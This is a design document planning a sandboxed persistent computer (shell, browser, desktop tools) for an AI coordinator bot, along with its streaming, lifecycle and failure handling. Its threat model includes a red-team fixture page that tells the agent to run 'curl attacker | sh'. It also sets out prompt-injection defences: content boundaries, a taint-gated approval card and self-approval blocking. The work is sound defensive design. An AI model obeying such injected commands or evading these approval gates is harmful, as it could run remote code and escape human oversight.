

# The Coordinator's computer: Rakazo's method and a cairn design

Status: research and design, 2026-11-03. No code. Sources are labelled measured (read or run this session), inferred (follows from measured facts) or guessed.

Goal (ian): in the Coordinator chat, the bot operates a computer directly, starting with omarchy: terminal, files, browser and a graphical desktop, and the Computers panel (#2644) shows it working.

## 0. Summary

- Rakazo keeps the agent runtime and the computer apart. Pi runs in Rakazo's API/worker; the computer is reached only through ordinary Pi tools behind one `SandboxProvider` interface (measured, `packages/adapter-kit/src/interfaces.ts:97`). cairn already has the same split: the Coordinator runs in Pi, and machines are reached over the machine protocol.
- Recommendation: one persistent Orb on omarchy is the Coordinator's computer. It is a long-lived systemd-nspawn container from a desktop variant of the Orb image, with a durable home, and it is never the omarchy host. Computer tools go from the Coordinator sidecar through `/api/machine/tool/:stepId` to the server, which forwards them over the existing `/api/machine/stream` channel to the daemon that holds the computer. That daemon forwards them over `relay.sock` to an agent inside the container. This is the same outbound-only shape as branch sync (`sync` event plus `/api/machine/sync-result/:syncId`).
- v1 has shell with streamed output, files, browser through agent-browser and desktop screenshots plus actions. The panel shows a live command feed and screen snapshots. A live interactive screen (noVNC) and takeover come in phase 2, because they add an inbound streaming path.
- 9 PRs. 5 are owner route because they touch `routes-machine.ts`, `machine*.ts`, `machine-client.ts`, `scripts/**` or drizzle, and need `/security-review`.

## 1. The Rakazo method (from the code)

Repository cloned at `/tmp/rakazo-src`, read 2026-11-03. Paths below are relative to it.

### 1.1 How a computer is modelled and provisioned

- One `Computer` row per scope (`packages/db/prisma/schema.prisma`, `model Computer`). Fields: `scope` (`team` or private), a unique `scopeKey`, `homeKey` / `homeRevision` for the durable workspace, `kind` and an opaque `providerRef`, `state`, and two fenced leases: an execution lease (`executionRunId`, `executionBotId`, `executionLeaseExpiresAt`, `executionFence`) and a control lease for human takeover (`controlHolder`, `controlLeaseId`, `controlFence`). There is also `screenGeneration`. `ComputerExecutionLease` holds one lease per (computer, bot). `ComputerRun` records each running stretch for billing (measured).
- `computerScopeKey` (`packages/db/src/computers.ts:24`): `team:<spaceId>:<userId>` or `bot:<botId>` (measured).
- Provider boundary `SandboxProvider` (`packages/adapter-kit/src/interfaces.ts:97-217`):
  - lifecycle: `provision` (allocate or reconnect, returns a `ComputerRef` before fallible setup), `prepare` (idempotent setup), `isRunning` / `isStopped` read-only probes, stop and destroy;
  - `execute(computer, {argv, cwd, env, pty, timeoutMs})` returns `AsyncIterable<ProcessEvent>` of `stdout` / `stderr` / `exit` (`types.ts:116-130`);
  - `observe`, `act`, `sendInput`, `connectScreen({view: 'stream'|'snapshot', interactive, controlToken})`, optional `connectTerminal`, optional `pageBrowser`;
  - `listFiles`, `readFile`, `writeFile`, `exportWorkspace` / import (measured).
- Providers: Docker, E2B, Daytona, Boat, CreateOS, Kubernetes, Novita, Railway, Wuying, a fake, and the `desktop` host computer (`packages/adapters/src/*-sandbox.ts`, measured). The remote Linux providers share one desktop runtime (`linux-desktop.ts`, `remote-desktop-sandbox.ts`). The provider supplies only command execution, paths and screen URLs (`docs/computer-runtime.md`).
- The Docker image (`infra/sandboxes/computer/Dockerfile`) contains Xvfb, x11vnc, fluxbox, xdotool, noVNC, websockify, Chromium (or Brave), agent-browser pinned by sha256 (`install-agent-browser.sh`), `control.py` for input and `xcapture.c` for screenshots. It runs as uid 1000 (`rakazo`), never root. The supervisor starts containers with `CapDrop: ["ALL"]`, `no-new-privileges`, and memory and pids limits (`infra/sandboxes/supervisor/src/computer-spec.ts:186-189, 618-623`) (measured).

### 1.2 Tools the bot gets

Defined once in `packages/adapters/src/builtin-tools.ts:263-545` as plain Pi tools, so any model works. Screen tools need a vision model (measured).

| Tool | Arguments | Notes |
|---|---|---|
| `shell` | `{command, cwd?}` | Returns early, with the process still running, once output has been quiet for 1 s (`SHELL_STREAM_IDLE_MS`, `shell-command-stream.ts`). The final output arrives as an automated follow-up message on a later turn. The command is killed after a few minutes; long work must use `nohup … > log 2>&1 &` |
| `list_files` / `read_file` / `write_file` | `{path}` / `{path}` / `{path, content}` | UTF-8; paths relative to the bot's folder |
| `attach_file` | `{path, name?, description?}` | Posts a workspace file to the chat as an artifact |
| `computer_observe` | `{}` | Screenshot plus frame metadata. Identical consecutive frames omit the image bytes |
| `computer_act` | `{actions[≤24], observe?, settle_ms?}` | Action kinds: `click, move, down, up, type, key, scroll, wait, focus`. A repeated action that leaves the frame unchanged is refused |
| `open_path` / `launch_app` | `{path}` / `{application, uri?}` | Returns the resulting screen |
| `browser_navigate` / `browser_snapshot` / `browser_act` | `{url}` / `{}` / `{actions:[{kind, ref, text, paths, secret, purchase, field}]}` | Drives the visible Chromium through agent-browser. Refs `e1…` are rechecked against a fresh snapshot before each action. `fill_secret` and `fill_card` type saved values over CDP after a site check, so the model never sees them |
| `request_takeover` | `{reason}` | For passwords, 2FA, CAPTCHA and payment |
| `user_computer_shell` / `_observe` / `_act` | `{command, cwd?}` / `{app, query?}` / `{app, actions[≤24]}` | For the user's own paired computer (§1.4) |

### 1.3 Streaming to the UI

- Command feed: each `shell` call is appended as a `computer.command` event, holding the redacted command and its output tail. `write_file`, `attach_file`, `open_path` and `launch_app` each get one line. Reads are left out (`packages/adapters/src/run-tools-computer.ts:53-75`, `docs/computer-runtime.md` "Terminal"). The Activity view replays these events live and from history (measured).
- Screen: noVNC through one token-protected screen gateway. View and control are separate revocable websocket capabilities. Each capability targets a unique Unix socket, so recycling a display cannot redirect an old connection, and teardown disconnects clients before a slot is reused. The web proxy injects a status reporter (`loading`, `connected`, `failed`) and shows a fixed error after 15 s of silence (`docs/computer-runtime.md` "Screen connection diagnostics").
- Interactive terminal: only while the user holds the control lease. It is a PTY server beside the screen gateway, bound to the control token, running as the workspace user. Releasing control kills it (`connectTerminal`, `docs/computer-runtime.md`).
- Takeover: "Take control" grants an exclusive control lease. It is refused with HTTP 409 while the bot holds an execution lease, unless the run is `waiting_takeover` (measured, doc).

### 1.4 The trusted local computer

Rakazo has two separate mechanisms (measured):

- **The user's own computer (desktop app).** The Electron main process calls `POST /api/user-devices/pair` with the user's session. The request must be JSON, and a foreign Origin is refused. It gets a random device token, which is stored hashed with a limit of 10 devices and recorded as a `device.paired` security event (`apps/api/src/user-devices.ts:42-76`). The app then opens an outbound websocket to `/api/user-devices/connect` (`packages/adapters/src/user-device-client.ts:35-40`). The server never dials in. API and worker processes forward requests to whichever process holds the socket, over an internal path authenticated by a key derived from `ENCRYPTION_KEY` (`user-device-gateway.ts:21-60`). Revoking a device disconnects it. On the device, the screen is driven through agent-desktop (`agent-desktop-host-screen.ts`), which refuses to drive the app's own process "so it cannot answer its own approval cards".
- **Gating.** Only the bot owner's own messages can reach their computer; routines, webhooks, other bots and other people cannot (`userComputerOwner`, `run-tools-user-computer.ts:47-58`). In every approval mode the first command in a space and the first use of each app ask the user, until they pick "Allow in this space". Removing the computer resets this (`userComputerGate`, same file). The docs warn: "A bot with access to your computer can read your files and run programs as you."
- **Self-host local stack.** `apps/desktop/src/host-computer.ts` and `host-computer-server.ts` run an HTTP listener reached from Docker through `host.docker.internal`. It takes a 64-hex bearer token compared with `timingSafeEqual`, refuses any request with an `Origin` header, caps bodies at 12 MB, streams NDJSON frames and has an explicit consent file.

### 1.5 Binding: team or private

- Team (the default): one computer per (space, user). Bots share files and installed tools. Each bot gets its own X display, Chrome process and persistent profile. Folders `bots/<id>/` and `shared/` organise work but are not a security boundary. The container is the boundary (`docs/computer-runtime.md`, "Computer contract").
- Private: `bot:<botId>`, a computer of its own. The setting lives under the bot's settings, Advanced (`docs/computer.md`).
- Concurrency: fenced per-bot execution leases. Different bots can run at once; one bot has one driver at a time.

### 1.6 Lifecycle

- Lazy start on first use, and opening the viewer wakes the computer. The desktop stack starts only when a graphical tool is used (measured, doc).
- Idle: `DEFAULT_SANDBOX_IDLE_MS` = 10 min. On billed providers, uptime is capped by `DEFAULT_COMPUTER_MAX_ACTIVE_MS` = 2 h. `TAKEOVER_IDLE_GRACE_MS` = 30 min keeps a takeover page open. A sweep runs every 10 min, and a background-work probe (marker files plus `lsof` or `/proc`) keeps a computer up while `nohup` work runs (`packages/adapters/src/computer-idle.ts:37-61, 300-320`).
- Persistence: the OS image is disposable and the home is durable. Checkpoints are taken at run end, at stop and before idle suspend. They exclude caches, `node_modules` and similar, and homes over 5 GiB are not saved (`docs/computer-runtime.md` "Persistence"). Update and recover run as durable jobs that reserve the whole computer.

### 1.7 What to borrow and what to leave

Borrow:
- the provider seam (lifecycle, exec, files, observe/act, page browser);
- shell that returns on quiet output, with the finished output delivered later;
- the redacted command feed;
- ref-checked browser actions with password masking;
- an outbound-only device channel;
- view and control capabilities kept separate;
- "never replay completed or uncertain actions".

Leave:
- multi-provider portability and the checkpoint archive (cairn has one host);
- per-bot displays and leases (cairn has one Coordinator);
- billing.

## 2. agent-browser and agent-desktop (read 2026-11-03, `/tmp/agentcap`)

- **agent-browser** (vercel-labs): a CLI that sends commands to a per-session daemon, which drives Chrome over CDP. It covers `open, snapshot -i` (refs `@e1`), `click, fill, type, press, select, upload, screenshot, read`, tabs and frames, and `batch`. It can attach to a running Chrome with `--cdp`. Live viewing: every session runs a WebSocket stream server that sends JPEG frames and accepts input. Only localhost origins may connect; others get 403 and need a proxy (`docs/content/docs/streaming.mdx`). Security options, all off by default (`security.mdx`):
  - `--content-boundaries` wraps page output in nonce markers;
  - `--allowed-domains` cannot be combined with `--cdp` or `--profile`;
  - `--action-policy` and `--confirm-actions` gate `eval`, downloads and uploads;
  - `--max-output` caps output;
  - an encrypted auth vault, so the model never sees passwords (measured, docs).
- **agent-desktop** (vercel-labs): a CLI and C library. `snapshot --app X -i` returns an accessibility tree with refs scoped to the snapshot (`@s8f3k2p9:e8`), and acting on a stale ref returns `STALE_REF`. It acts headless by default through the accessibility API; `--headed` allows physical input. On Linux it needs a graphical session with `at-spi2-core`, and X11 keys need XTEST. Screenshots of X11 windows are supported (`README.md` "Platform support", `docs/install.md`). Every command prints a JSON envelope, and a retry is allowed only when `error.disposition.retry` is `safe` (measured).
- Rakazo uses agent-browser inside the container. It uses agent-desktop only on the user's own Mac or Windows machine; container desktops use `control.py` with xdotool (measured). For an Xvfb desktop in an Orb, agent-desktop should work over X11 plus AT-SPI (inferred from its Linux table; not run). Spike S2 in §5 checks this before relying on it.

## 3. cairn design

### 3.1 What exists today (measured, `origin/main` 721db97de)

- The Coordinator turn is a `chief` step. Its tools are relayed: the runner POSTs `{name, params}` to `/api/machine/tool/:stepId`. `executeRelayToolCall` (`apps/server/src/services/machine-relay.ts:74`) requires the step to be claimed by the calling machine and runs `executeChiefTool` on the server. Every Coordinator tool today is server-side.
- D72 moves the Coordinator into a Pi Durable sidecar (`apps/coordinator`, not on main yet) using the same route. Pi Durable tools carry `replay: "safe" | "unsafe"` (measured, pi-durable `.d.ts` in `/tmp/pd-spike`). D72 ⑥ requires a rule on every tool.
- Server-to-machine push already exists: `/api/machine/stream` (SSE) carries `wake | shutdown | steer | stop | sync` (`packages/shared/src/protocol/machine-wire.ts:241-247`). `sync` is answered by `POST /api/machine/sync-result/:syncId`. Daemons never accept inbound connections.
- Orbs: `OrbProvider` has `ensure({conversationId, projectId}), prepare, start, stop, destroy, list, touch` (`apps/daemon/src/orb/provider.ts:62`). Idle stop is 20 min, removal is 72 h or when the conversation closes, and at most 2 run at once (`orb/lifecycle.ts:3-8`). The relay methods are fixed (`orb/protocol.ts:21-43`). `cairn-orb.nspawn` sets `PrivateUsers=pick`, and all traffic goes through the egress relay at `10.203.0.1:7890`. The relay refuses private addresses and allows only ports 80, 443 and 22 (`scripts/ops/orb/egress-relay.mjs:12-18`). The host check verifies `homeVisible: false` and `privateEgress: "denied"` (`scripts/ops/orb/README.md`).
- D71: the capability report carries `executor: 'orb'` (`packages/shared/src/records/machine-capabilities.ts:20`), and missing capabilities fail closed (#2652).
- #2644: the panel lists machines, with Desktop control and Browser as placeholders.

### 3.2 Model

- **Computer = a machine capability (D71).** The daemon that runs it reports `computer: {id, state: 'running'|'stopped'|'failed', desktop: boolean, browser: boolean, versions}` with its capabilities. A missing report means "no computer" and fails closed. The server stores no provider state, only which machine holds the Coordinator's computer (§3.5).
- **Provisioning.** A new `OrbProvider` mode, `persistent`, keyed by `computer:<chiefId>` instead of a conversation:
  - built from `cairn-orb-computer`, a variant layered on `cairn-orb-base` that adds Xvfb, a minimal WM, x11vnc for phase 2, Chromium, agent-browser and agent-desktop pinned by sha256, and at-spi2-core;
  - `/home/agent` is bind-mounted from `/var/lib/cairn-computer/<id>/home`, so an image update replaces the OS and keeps the home (Rakazo's disposable image, durable home);
  - excluded from the 72 h removal and from `CAIRN_ORB_MAX`;
  - limits as a systemd slice: MemoryMax 6 GiB, CPUQuota 300%, TasksMax 2048 (guessed sizes; omarchy has 32 GB);
  - the same `PrivateUsers=pick`, egress relay and no host home.
- **In-container agent (D51).** `cairn-computer.service` runs as `agent` inside the image and connects to `/run/cairn/relay.sock`. It never holds a cairn token; the host daemon authenticates it with the per-Orb release key it already uses. It implements:
  - `exec`, streaming with a process group per call;
  - `kill`;
  - `read`, `write` and `list`, confined to `/home/agent` unless ian decides otherwise (§6.2);
  - `screenshot` and `act` (xdotool, or agent-desktop if spike S2 passes);
  - `browser`, a thin wrapper over agent-browser against the visible Chromium with `--content-boundaries` and `--max-output`.

### 3.3 Tools for the Coordinator

Names are prefixed so they cannot collide with the 70 `CHIEF_REMOTE_TOOLS`. Replay rules use Pi Durable's values. On top of them, the server dedups by `callId = hash(stepId, toolCallId)`:

- an `unsafe` call already finished returns its stored result, without rerunning;
- an `unsafe` call started without a result returns `interrupted, may have partially run`, as the D72 spike measured;
- a `safe` call reruns.

| Tool | Arguments | Result | Replay |
|---|---|---|---|
| `computer_shell` | `{command, cwd?, timeoutSec? (≤600, default 120)}` | `{callId, exitCode \| null, running, stdout, stderr}` (head plus tail, 32 KB) | unsafe |
| `computer_shell_output` | `{callId, waitSec? (≤60)}` | the same shape, the new output since the last read | safe |
| `computer_shell_kill` | `{callId}` | `{killed}` (process group SIGTERM, then SIGKILL after 5 s) | safe |
| `computer_list_files` | `{path}` | entries (name, type, size, mtime), at most 500 | safe |
| `computer_read_file` | `{path, offset?, limit?}` | text, 256 KB cap; binary refused | safe |
| `computer_write_file` | `{path, content}` | `{bytes}`; 8 MB cap | unsafe |
| `computer_attach_file` | `{path, name?}` | the file posted as a chat attachment (existing attachment store) | unsafe |
| `computer_observe` | `{}` | PNG screenshot, long edge ≤1280, plus window list; an identical frame omits the bytes | safe |
| `computer_act` | `{actions[≤24]: {kind: click\|move\|type\|key\|scroll\|wait\|focus, x?, y?, text?, key?, modifiers?, direction?, amount?, ms?, application?}, observe?}` | the screen afterwards | unsafe |
| `browser_navigate` | `{url}` | the page snapshot | unsafe |
| `browser_snapshot` | `{}` | refs plus bounded page text, inside content boundaries, password fields masked | safe |
| `browser_act` | `{actions[≤12]: {kind: click\|fill\|type\|press\|select\|check\|scroll\|upload, ref, text?, paths?}}` | the snapshot afterwards; each ref rechecked first | unsafe |
| `computer_request_takeover` | `{reason}` | an inbox card for ian. In v1 he acts over ssh or VNC himself; phase 2 adds in-app control | unsafe |

The shell result follows Rakazo: return as soon as output has been quiet for 1 s or the command exits. A still-running call is followed with `computer_shell_output`. The relay response needs an image content part: today it is `{text}` only, a wire change in P1. The Coordinator's models (Haiku and Sonnet 5.5) accept images in tool results (inferred from Pi's image support).

### 3.4 Streaming to the panel

- Command feed (v1). The agent sends output chunks through the daemon to `POST /api/machine/computer/:callId`, with at most 4 chunks per second and 64 KB per call. The server redacts each chunk with the shared `redactSecrets` before storing it or emitting `computer.command` on the hub. The panel shows a read-only terminal log of each call: command, live tail, exit code, and a Stop button that calls kill. History comes from a `computer_call` table that keeps the last 200 calls and output tails only.
- Screen (v1). The panel requests `computer.snapshot` every 2 s while it is visible (JPEG ≤150 KB), and every `computer_observe` / `computer_act` result is pushed as well. Snapshots are kept in memory only (the last frame per computer) and never written to disk or to the DB (§4.3).
- Live screen and takeover (phase 2). x11vnc listens on a Unix socket inside the container. The daemon opens an outbound websocket to the server for one sealed capability, view or control, separate tokens, revocable, one socket per capability; this is Rakazo's design. The server proxies it to an authenticated web client. Control is exclusive: while ian holds it, `computer_act` and `browser_act` return `held by ian`. This is a new external entry point (§5, P9).

### 3.5 Binding

- One computer, bound to the Coordinator (the `chief` row), not to a conversation. It persists across chat threads, like a Rakazo Private computer. Worker threads keep their per-task Orbs and get no computer tools in v1 (decision §6.5).
- Which machine: a routing rule with `requiredCapabilities: {computer: true}` and omarchy as the preferred machine (D71 #2655). Because the home lives on that machine, the Coordinator's computer never falls back to another machine. It waits and says so.

### 3.6 Lifecycle

- Start: lazily on the first computer tool call, or when ian opens the panel. The desktop stack starts on the first screen or browser tool.
- Idle:
  - desktop processes (Xvfb, Chromium) stop after 30 min with no tool calls and no viewer;
  - the container stops after 4 h idle unless background work is running (marker files probed as in Rakazo);
  - disk is always kept (guessed values, tunable).
- Stop and reset: the panel menu gets Stop, Restart and Rebuild. Rebuild replaces the image and keeps the home after a btrfs snapshot (the Orb builder already uses subvolumes on btrfs).
- Chat stop: stopping a Coordinator turn sends `stop` for its in-flight computer calls, and the agent kills their process groups.

## 4. Failure modes

| Failure | Behaviour | Test |
|---|---|---|
| Computer offline (daemon down, Orb failed, omarchy rebooting) | The server checks capability and presence before forwarding. The tool returns at once with `computer offline since <t>; last state <s>` and is never queued, so an unsafe call cannot run later by surprise. The panel shows offline. Chat keeps working because the sidecar is on the Mac | A unit test on the forwarder: no presence gives an immediate error and no stream event |
| Daemon dies mid-call | The callId has no result. A retry of an unsafe call returns `interrupted, may have partially run`, and processes found on restart are killed | An integration test that kills the daemon mid-`computer_shell` |
| Runaway command | Wall timeout (default 120 s, max 600 s), then the process group is killed. Long work must use `nohup … &`, documented in the tool description. Output cap 64 KB, head plus tail. Slice limits (MemoryMax, CPUQuota, TasksMax) contain fork bombs and memory hogs. Kill tool and Stop button | A fixture that runs `yes`, a fork bomb under TasksMax and a sleep past the timeout |
| Secret on screen or in output | Shell chunks pass through `redactSecrets` before storage, the hub or the model. agent-browser snapshots mask password fields. Screenshots cannot be redacted reliably, so they are never persisted, go to the model only when it calls a screen tool, and the panel frame is in memory only. No cairn token, API key or ian credential is placed in the computer, and the in-container agent authenticates over relay.sock. Logins go through takeover, never through chat | A test that a token-shaped string in stdout reaches neither DB nor hub; a check that the computer env holds no `CAIRN_*` secrets |
| Prompt injection from a web page driving the shell | See below | A red-team fixture page instructing `curl attacker \| sh` |
| Two drivers (bot and ian) | v1: ian has no in-app input, so this cannot happen. Phase 2: an exclusive control lease with a fence, as in Rakazo | Phase 2 lease test |
| Disk full or home too large | Free space is part of the capability report. Below 2 GiB the tools warn, and writes refuse below 512 MB | A unit test on the threshold |

Prompt injection, layer by layer:

1. **Blast radius first.** The computer is an unprivileged-user-namespace container with no host home, no omarchy host access, no cairn credentials, and egress to public addresses on 80, 443 and 22 only. The tailnet and LAN cannot be reached, so the Mac control plane cannot either (measured: the relay refuses private ranges). ian's NOPASSWD sudo on the host is out of reach. The worst case is what a page can make a stranger's VPS do. It is not omarchy.
2. **Mark untrusted output.** Page text arrives inside agent-browser's nonce `--content-boundaries`. Tool descriptions say text inside them is data.
3. **Taint gate (recommended; ian decides strictness, §6.4).** After a turn has read untrusted content (`browser_*`, `computer_observe`, or reading a file downloaded in this turn), the next `computer_shell` or `computer_write_file` in that turn, and any Coordinator dispatch tool (`run_builds`, thread start), first shows ian an ask card that quotes the command. Rakazo's "Auto" approval mode, an approval model judging whether an action is on-task (`docs/approvals.md`), is an alternative.
4. **Browser policy.** An agent-browser `--action-policy` denies `eval`. Downloads go only to `~/Downloads`.

## 5. PR list

Spikes run before P2, with no PR. S1: the desktop image inside nspawn with `PrivateUsers=pick` (Xvfb, Chromium under a user namespace with the proxy, agent-browser over CDP). S2: agent-desktop snapshot and click under Xvfb plus AT-SPI. S3: `computer_observe` image round-trip through Pi in the sidecar.

| # | PR | Main paths | Route |
|---|---|---|---|
| P1 | Wire: `computer` stream event, `/api/machine/computer/:callId` result route, an image part in relay responses, a `computer` capability, a `computer_call` table | `packages/shared/src/protocol/machine-wire.ts`, `apps/server/src/routes-machine.ts`, `apps/server/drizzle/**` | **owner** + `/security-review` |
| P2 | Persistent Orb mode and the `cairn-orb-computer` image variant | `apps/daemon/src/orb/provider.ts`, `lifecycle.ts`, `scripts/ops/orb/**` | **owner** (`scripts/**`) + `/security-review` |
| P3 | In-container computer agent: exec with streaming and process groups, kill, files, over relay.sock; host side handles the stream event | `apps/daemon/src/orb/computer-agent.ts` (new), `orb/relay.ts`, `apps/daemon/src/machine-client.ts` | **owner** (`machine-client.ts`) + `/security-review` |
| P4 | Server forwarder: presence and capability check, callId dedup and replay results, timeouts, cancel on chat stop, redaction, hub events | `apps/server/src/services/machine-computer.ts` (new), `machine-relay.ts` | **owner** (`machine*.ts`) + `/security-review` |
| P5 | Coordinator tool definitions with replay rules and descriptions, plus the test that every tool has a rule | `apps/coordinator/**` (D72 sidecar) | normal (`review-gate`) |
| P6 | Panel: command feed, Stop, snapshots while visible, offline state, replacing the #2644 placeholders | `apps/web/src/board/machines-panel.tsx`, e2e | normal |
| P7 | Desktop and browser tools: screenshot and act, an agent-browser wrapper with content boundaries and action policy | `apps/daemon/src/orb/computer-*.ts`; image changes in `scripts/ops/orb/**` | **owner** (image) + `/security-review` |
| P8 | Taint gate: ask before shell, write or dispatch after untrusted content | `apps/server/src/services/chief*.ts` or sidecar | normal path; `/security-review` recommended |
| P9 | Phase 2: live noVNC with view and control capabilities, takeover lease, outbound daemon websocket | `routes-machine.ts`, `machine*.ts`, web | **owner** + `/security-review` (new external entry) |

Order: S1–S3 → P1 → P2 ∥ P5 → P3 → P4 → P6 → P7 → P8 → P9. P5 can merge behind a flag before P4. P8 must land before the browser tools are enabled for real use.

## 6. Decisions for ian

1. **Where the computer runs.** Recommended: a persistent Orb on omarchy. The alternatives are the omarchy host (rejected: NOPASSWD sudo, all of ian's files) or per-task Orbs (rejected: nothing persists, logins are lost).
2. **Root inside the computer.** Recommended: passwordless sudo for `agent` inside the container, so it can `pacman -S` what it needs, as Amp's Orbs do. Root there maps to an unprivileged host uid (`PrivateUsers=pick`). The alternative is Rakazo's rule, never root and user-level installs only, which is safer against kernel bugs but blocks system packages. File tools would then also be confined to `/home/agent` or not.
3. **Egress.** Recommended: keep the Orb relay (public internet only, ports 80, 443 and 22). Opening more ports, or the tailnet, needs an explicit allowlist.
4. **Injection gate strictness.** Recommended: the taint gate in §4 (asks only after untrusted content in the same turn). The alternatives are always asking before an unsafe computer call (safest, noisy) and never asking (Amp style, relying on the blast radius).
5. **Who may use it.** Recommended: the Coordinator only in v1. Workers keep per-task Orbs. Rakazo's team mode shares one computer across bots, which cairn could add later.
6. **Live screen.** Recommended: snapshots in v1 and live noVNC plus takeover in phase 2 (P9). Choosing it for v1 brings P9's security review forward.
7. **Signing in to sites.** Recommended: ian signs in himself (takeover, or VNC over ssh until P9). Chromium keeps a persistent profile in the home, and cairn never stores or types his passwords. Note that a signed-in profile turns prompt injection into account access, which raises the weight of decision 4.
8. **Sizes.** Idle timers (desktop 30 min, container 4 h) and slice limits (6 GiB, 300% CPU): accept the defaults or adjust.

Not decided here: a second computer on the Mac (Apple `container`, D69), and pairing ian's own Mac Rakazo-style. Both can reuse the same tools later with a different provider.
